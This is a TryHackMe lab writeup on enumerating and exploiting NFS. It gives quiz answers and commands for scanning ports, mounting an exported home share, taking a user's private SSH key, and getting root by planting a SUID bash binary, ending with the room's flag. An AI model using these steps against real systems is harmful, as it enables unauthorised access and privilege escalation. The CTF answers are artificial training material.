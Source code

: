 ```yaml
---
layout: post
title: Network Services 2 Room Writeup
categories: [TryHackMe]
tags: [Writeup]
---
```


# TryHackMe: Network Services 2 Room Writeup

> Enumerating and Exploiting More Common Network Services & Misconfigurations

### Task 2

**What does NFS stand for?**

> Network File System

**What process allows an NFS client to 
interact with a remote directory as though it was a physical device?**

> mounting

**What does NFS use to represent files and directories on the server?**

> file handle

**What protocol does NFS use to communicate between the server and client?**

> RPC

**What two pieces of user data does the NFS server take as parameters for 
controlling user permissions? Format: parameter 1 / parameter 2**

> user ID / group ID

**Can a Windows NFS server share files with a Linux client? (Y/N)**

> Y

**Can a Linux NFS server share files with a MacOS client? (Y/N)**

> Y

**What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.**

> 4.2

### Task 3

**Conduct a thorough port scan scan of your choosing, how many ports are open?**

In practice, when you use nmap to scan a huge range of ports, it can take really a long time. So instead of setting up a huge port range, we can divide it into several ranges to make the scanning time short.

```
nmap -A -p1-10000 10.10.186.1
nmap -A -p10001-20000 10.10.186.1
nmap -A -p20001-30000 10.10.186.1
nmap -A -p30001-40000 10.10.186.1
nmap -A -p40001-50000 10.10.186.1
```

> 7

**Which port contains the service we're looking to enumerate?**

> 2049

**Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?**

```
showmount -e 10.10.186.1
```

> /home

**Change directory to where you mounted the share- what is the name of the folder inside?**

```
mkdir /tmp/mount
mount -t nfs 10.10.186.1:/home /tmp/mount/ -nolock
cd /tmp/mount/
ls
```

> cappucino

**Which of these folders could contain keys that would give us remote access to the server?**

> .ssh

**Which of these keys is most useful to us?**

> id_rsa

**Can we log into the machine using *ssh -i <key-file> <username>@<ip>* ? (Y/N)**

```
cp id_rsa ~
cd ~
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.186.1
```

> Y

### Task 4

**Now, we're going to add the SUID bit permission to the bash executable 
we just copied to the share using "sudo chmod +[permission] bash". What 
letter do we use to set the SUID bit set using chmod?**

```
chmod +s bash
```

> s

**Let's do a sanity check, let's check the
 permissions of the "bash" executable using "ls -la bash". What does the
 permission set look like? Make sure that it ends with -sr-x.**

```
chmod +x bash
ls -la bash
```

> rwsr-sr-x

**Now, SSH into the machine as the 
user. List the directory to make sure the bash executable is there. Now,
 the moment of truth. Lets run it with "*./bash -p*". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.**

```
ssh -i id_rsa cappucino@10.10.186.1
./bash -p
```

Now we have entered into a root shell.

> No answer needed

**Great! If all's gone well you should have a shell as root! What's the root flag?**

Change to root home directory, then you can find a text file containing the flag.

```
cd /root
cat root.txt
```

> THM{nfs_got_pwned}
